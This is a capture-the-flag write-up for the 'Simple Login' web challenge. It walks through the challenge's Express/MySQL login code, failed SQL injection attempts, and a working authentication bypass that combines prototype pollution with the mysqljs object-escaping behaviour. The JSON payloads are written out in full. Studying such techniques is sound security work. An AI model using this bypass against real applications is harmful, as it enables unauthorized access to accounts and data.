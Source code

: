# Simple Login

![](./img/author-kevinmizu.svg) ![](./img/difficulty-medium.svg) ![](./img/category.svg)

![](./img/simplelogin-desc.png)

## Welcome!

To start the challenge, I've downloaded the files and decided to go straight to destroying the server (and it didn't work). So we start up on this little piece of page:

![welcome page](./img/simplelogin-1.png)

Very welcoming, `admin:admin` doesn't work and `' OR 1=1; --` fails as expected. Great! This website has no vulnerabilities. Thank you bye bye! Or maybe it has?

## Inspecting the files given to us

The website owner has full confidence in their code that they even gave it to us. Why not use it then? There is a little `Dockerfile` that starts the webserver with a MySQL service, `app.js` and other files that do not interest us.

I tweaked the `Dockerfile` a little to copy my `my.cnf` that has these added lines:

```tsconfig
[mysqld]
general_log_file        = /var/log/mysql/mysql.log
general_log             = 1
```

This will help us understand what happens on the server side, with MySQL logging our requests (well, most of them).

The whole code that interests us is in the `/auth` route. Let's inspect it.

```js
app.post('/auth', function (req, res) {
    if (!req.is('application/json')) {
        res.send('Data must be send in JSON!', 400);

    } else {
        var credentials = req.body;

        if (typeof credentials.user === "object") {
            res.send("Attack detected!", 400);
        } else if (typeof credentials.password === "object") {
            res.send("Attack detected!", 400);

        } else {
            credentials = Object.assign({"flag": "RM{fake-flag}"}, credentials)

            var sql = "SELECT ? AS FLAG FROM users WHERE user = ? AND password = ?";
            connection.query(
                sql,
                [credentials.flag, credentials.user, credentials.password],
                (e, result, fields) => {
                    if (result.length > 0) {
                        res.send(result[0]["FLAG"], 200);
                    } else {
                        res.send("Invalid credentials!");
                    }
                }
            );
        }
    }
});
```

So we have to send `application/json` content, with `user` and `password` that **cannot** be of type `object` (an array returns `object` when asked with `typeof`). However, they are not required, and they can be safely ignored (MySQL will set `NULL` appropriately).

Our SQL query is not prepared but uses the `?` notation, which is a little bit different from prepared requests, as per [the spec](https://www.npmjs.com/package/mysql#escaping-query-values). For our use case, it makes no difference so let's assume the request is prepared.

In the `package.json` file, we can see that the version used is `"mysql": "^2.18.1"`, the latest at the time of the CTF.

The last part that kept my attention is the `Object.assign` part, where `credentials` is applied to `{"flag": "RM{fake-flag}"}`. That must mean we can override `flag` with our value. Let's see what happens.

## Exploiting the flag override

I've tried injecting SQL code in the flag value, but the escaping works properly.

```json
{"flag": ["'user AS FLAG FROM users; --"]}
```

Gives us the following SQL request:

```sql
SELECT '\' user AS FLAG FROM users; --' AS FLAG FROM users WHERE user = NULL AND password = NULL
```

Our quote is properly escaped. Too bad! So I've read the spec in hopes I could find another way to exploit the vulnerability. If I can leak the `username` and `password` through `FLAG`, I can then connect.

There are three points that are important for us:

1. Strings are safely escaped

2. Objects are turned into `key = 'val'` pairs for each enumerable property on
   the object. If the property's value is a function, it is skipped; if the
   property's value is an object, toString() is called on it and the returned
   value is used.

3. Objects that have a `toSqlString` method will have `.toSqlString()` called
   and the returned value is used as the raw SQL

Point 1 tells us that we cannot exploit this finding through a simple string. Point 3 tells us that having a wonderful `toSqlString` method would fix all our problems. Point 2 is unclear as to what is done to the `key`. Maybe written as is?

Unfortunately, point 3 is impossible as JSON cannot store functions, so we'll try to exploit point 2.

```json
{"flag": {"user AS FLAG FROM users; --": "nothing"}}
```

This payload would, in my head, write the key as is and exploit an SQLi. Unfortunately I was mistaken.

```sql
SELECT `user AS FLAG FROM users; --` = 'nothing' AS FLAG FROM users WHERE user = NULL AND password = NULL
```

Maybe with a backtick?

```sql
SELECT `user`` AS FLAG FROM users; --` = '' AS FLAG FROM users WHERE user = NULL AND password = NULL
```

Nope. I think this is the wrong way. What else do we have in our code?

## The `Object.assign` way

I was convinced that `Object.assign` was weird and could lead to problems. I've searched for `Object.assign side-effects`, `exploiting Object.assign` and finally found [this issue](https://github.com/microsoft/TypeScript/issues/33934) on TypeScript GitHub that reminded me of what I had forgotten: prototype pollution.

Now it was clear, the solution was easy. As I had read before this [Medium post](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) about SQLi with the `mysql` package and its weird escape mechanism, I knew how to exploit prototype pollution.

By sending `password: { password: 1 }`, MySQL would create ``password = `password` = 1`` in the request, effectively comparing `password` with `password`, then `true` with `1`.

So let's just exploit that fact with prototype pollution, and it'll be a win!

```json
{"__proto__":{ "user":{"user": 1}, "password":{"password":1}}}
```

Well done, we're connected!

![welldone](https://media.giphy.com/media/nbvFVPiEiJH6JOGIok/giphy.gif)

**Flag: `RM{Pr0t0_P01s0n1ng+ObJ3cT_SQL1_GOES_BRRRRRRRRRRRRR}`**
